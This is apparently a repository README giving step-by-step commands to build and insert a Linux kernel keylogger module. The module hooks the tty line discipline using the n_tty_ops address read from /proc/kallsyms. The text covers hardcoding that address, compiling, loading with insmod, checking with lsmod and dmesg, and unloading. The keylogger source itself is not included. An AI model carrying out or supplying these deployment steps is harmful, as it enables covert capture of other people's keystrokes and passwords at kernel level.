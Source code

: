 # Instructions on running the keylogger manually

First, get the address of n\_tty\_ops. NOTE: This address seems to change every time so this step cannot be skipped, otherwise you will get unexpected results:

`$ sudo grep n_tty_ops /proc/kallsyms`

Then, you get something like this (the address will be slightly different):

`ffffffffb55700c0 d n_tty_ops`

Then, in the keylog.c file, go to this line in hijack\_tty\_ldisc\_receive\_buf function and replace the address with the one from above. Do not forget to append the 0x in the beginning of the address: 

`our_n_tty_ops = (struct tty_ldisc_ops *) 0xffffffffb8b700c0;`

Save, then run makefile.

`$ make`

Then, you'll get keylog.ko file. Insert the module into the kernel.

`$ sudo insmod keylog.ko`

You can double check to see if the kernel was loaded properly by checking if there is "keylog" inside:

`$ lsmod`

Printk messages from the code can be seen with (Printf is not available for kernel modules):

`$ dmesg`

Keylogger module can be removed with:

`$ rmmod keylog`
